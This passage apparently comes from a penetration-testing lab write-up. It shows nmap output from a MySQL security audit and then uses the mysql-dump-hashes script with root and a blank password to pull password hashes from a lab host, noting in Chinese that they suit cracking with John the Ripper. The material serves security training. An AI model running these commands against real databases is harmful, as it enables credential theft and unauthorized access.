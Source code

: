 ```
|       4.1: Supported version of MySQL => REVIEW
|         Version: 5.5.62-0ubuntu0.14.04.1
|       4.4: Remove test database => PASS
|       4.5: Change admin account name => PASS
|       4.7: Verify Secure Password Hashes => PASS
|       4.9: Wildcards in user hostname => PASS
|         The following users were found with wildcards in hostname
|           filetest
|           root
|       4.10: No blank passwords => PASS
|         The following users were found having blank/empty passwords
|           root
|       4.11: Anonymous account => PASS
|       5.1: Access to mysql database => REVIEW
|         Verify the following users that have access to the MySQL database
|           user  host
|       5.2: Do not grant FILE privileges to non Admin users => PASS
|         The following users were found having the FILE privilege
|           filetest
|       5.3: Do not grant PROCESS privileges to non Admin users => PASS
|       5.4: Do not grant SUPER privileges to non Admin users => PASS
|       5.5: Do not grant SHUTDOWN privileges to non Admin users => PASS
|       5.6: Do not grant CREATE USER privileges to non Admin users => PASS
|       5.7: Do not grant RELOAD privileges to non Admin users => PASS
|       5.8: Do not grant GRANT privileges to non Admin users => PASS
|       6.2: Disable Load data local => FAIL
|       6.3: Disable old password hashing => FAIL
|       6.4: Safe show database => FAIL
|       6.5: Secure auth => FAIL
|       6.6: Grant tables => FAIL
|       6.7: Skip merge => FAIL
|       6.8: Skip networking => FAIL
|       6.9: Safe user create => FAIL
|       6.10: Skip symbolic links => FAIL
|     
|     Additional information
|       The audit was performed using the db-account: root
|_      The following admin accounts were excluded from the audit: root,debian-sys-maint
MAC Address: 02:42:C0:29:3F:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```

Dump all user hashes using  nmap script.

[mysql-dump-hashes](https://nmap.org/nsedoc/scripts/mysql-dump-hashes.html)

从 MySQL 服务器转储密码哈希，格式适合被 John the Ripper 等工具破解。需要适当的数据库权限（root）。

```
root@attackdefense:~# nmap -p 3306 192.41.63.3 --script mysql-dump-hashes --script-args="username='root',password=''"
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-26 03:45 UTC
Nmap scan report for target-1 (192.41.63.3)
Host is up (0.000049s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-dump-hashes: 
|   debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
|   filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
|   ultra:*827EC562775DC9CE458689D36687DCED320F34B0
|   guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
|   sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
|   udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
```